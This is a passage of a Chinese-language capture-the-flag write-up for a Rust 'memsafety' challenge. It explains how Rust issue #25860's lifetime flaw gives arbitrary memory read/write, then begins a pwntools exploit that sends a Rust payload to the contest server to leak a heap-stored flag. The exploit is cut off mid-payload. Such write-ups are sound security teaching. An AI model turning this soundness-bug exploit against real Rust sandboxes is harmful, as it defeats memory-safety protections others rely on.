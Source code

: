 `CTF{fake flag}` 會在 heap 上，並且 size 為 0x20，雖然 remote 應該會有不同，不過先假定 flag 在附近。

[這篇文章](https://hydrogen5.github.io/2020/03/09/Rust%E4%B9%8B%E6%AE%87%E2%80%94%E2%80%94%E5%AE%89%E5%85%A8%E7%9A%84%E8%BE%B9%E7%95%8C/#%E9%80%83%E7%A6%BB%E4%BC%8A%E7%94%B8)簡單介紹了過去一個 rust 的洞，可以做到任意讀寫，看了一下 issue 發現現在還沒修好，後續找了一些關於 nightly 1.47.0~1.48.0 的 issue，也沒發現沒什麼特別的，因此嘗試使用這個洞來 exploit。

其中有做了一些修正，因為 `Vec` 或是 `Box` memory allocation 的大小有些變化，不過都是要讓 `let mut x: Vec<i64> = Vec::new();` 可以寫到過去 `let mut b = Vec::new();` 所產生的 memory region，並且將原本的 data pointer inject 成指定位置，之後再用 `pa` 去讀指定做 leak 即可。user-1 flag 的位置可以用 `gdb search -s "CTF{fake flag}"` 找到。



簡單介紹一下 [rust 的洞](https://github.com/rust-lang/rust/issues/25860):

```rust
static UNIT: &'static &'static () = &&();

fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T {
    v
}

fn bad<'b, T>(x: &'b T) -> &'static T {
    let f: fn(_, &'b T) -> &'static T = foo;
    f(UNIT, x)
}
```

- `UNIT` 是一個 type 為 `&'static &'static ()` 的 global variable，`&'static &'static ()` 為指向 tatic reference of static reference 的 function
- `foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T` 為 template function，有三個參數 `'a`, `'b`, `T`
  - 第一個 parameter `_` 會隱式 (Implicit) 要求 `'b: 'a`，因為 inner reference (`'b`) 的生命週期會比外層 (`'a`) 還常
  - 第二個參數會直接回傳 v，並且 `'b T` -> `'a T`
- `bad<'b, T>(x: &'b T) -> &'static T` 接收任意的 reference `&'b T`，回傳 static reference `&'static T`，但是 assign `foo` to `f` 時會發生問題。當 `fn(_, &'b T)` 沒有第一個參數時，`foo` 選擇 `<'static, 'b , T>` 來做單態，但是這不符合 `'b: 'a`，因此呼叫 `f(UNIT, x)` 後，reference 可以一直保留 (因為是 `static`)



exploit:

```python
#!/usr/bin/python3

from pwn import *

flag = b""

for off in range(33, -9, -5):
    r = remote('memsafety.2021.ctfcompetition.com', 1337)
    payload = """
    use prelude::{mem::ManuallyDrop, Service, Box, String, Vec, log};
            static FLAG: &'static str = "TEST";
            pub struct State(ManuallyDrop<String>);
            impl State {
                pub fn new() -> Box<dyn Service> {
                    Box::new( State(ManuallyDrop::new(String::from(FLAG))) )
                }
            }

            static UNIT: &'static &'static () = &&();
            fn foo<'a, 'b, T>(_: &'a &'b (), v: &'b T) -> &'a T {
                v
            }

            fn bad<'b, T>(x: &'b T) -> &'static T {
                let f: fn(_, &'b T) -> &'static T = foo;
                f(UNIT, x)
            }
            
```